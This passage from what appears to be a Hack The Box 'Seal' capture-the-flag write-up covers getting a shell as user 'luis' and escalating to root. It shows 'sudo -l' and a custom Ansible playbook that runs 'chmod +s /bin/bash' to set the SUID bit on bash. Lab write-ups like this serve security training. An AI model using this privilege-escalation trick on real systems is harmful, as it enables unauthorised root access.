 ![Shell as luis](/images/writeups/htb-seal/luis_shell.png)

We can also read the `user.txt` file.

![User.txt](/images/writeups/htb-seal/user.txt.png)

## Root.txt

It seems that our new user can actually execute a command using `sudo` without supplying a password!

```bash
sudo -l
```

![Sudo Permissions](/images/writeups/htb-seal/sudo.png)

We can create a custom playbook that will execute commands on the system.

```yml
- hosts: localhost
  tasks:
  - name: SUID Bash 
    command: chmod +s /bin/bash
```

This playbook will set the SUID bit on `bash`, allowing us to escalate to root.

![SUID Bash](/images/writeups/htb-seal/suid.png)
